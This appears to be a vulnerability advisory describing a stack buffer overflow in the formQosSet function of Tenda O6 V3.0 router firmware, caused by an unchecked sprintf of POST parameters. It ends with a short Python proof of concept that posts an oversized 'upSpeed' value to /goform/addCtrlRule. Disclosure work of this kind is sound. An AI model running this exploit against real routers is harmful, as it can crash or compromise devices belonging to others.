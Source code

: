 ## Overview
- Firmware download website: [https://www.tenda.com.cn/download/detail-3861.html](https://www.tenda.com.cn/download/detail-3861.html)
## Affected version
  O6 V3.0 V1.0.0.7(2054)
## Vulnerability details
In the O6 V3.0 firmware version V1.0.0.7(2054), there is a stack overflow vulnerability in the `formQosSet` function. Specifically, the variables `Var`, `v3`, `v4`, `v5`, and `v6` receive their values from user-controlled POST request parameters, namely `remark`, `ipRange`, `upSpeed`, `downSpeed`, and `enable`. The function contains a call to `sprintf` that formats these variables into the `v18` buffer as follows:
`sprintf(v18, "%d;%s;%s;%s;%s;0;0;0;1;%s", v8 + 1, v6, v3, v4, v5, Var);`
Since the length of the `remark`, `ipRange`, `upSpeed`, `downSpeed`, and `enable` parameters is not validated, it is possible for these user-provided values to exceed the capacity of the `v18` array. This can lead to a buffer overflow, which is a significant security vulnerability.
![Vulnerability Function1](./20240805173254.png)


## POC
```python
import requests
ip = "192.168.109.145"
url = "http://" + ip + "/goform/addCtrlRule"
payload = b"ab"*3000

data = {"upSpeed": payload}
response = requests.post(url, data=data)
print(response.text)
```
![Vulnerability Function2](20240805163853.png)
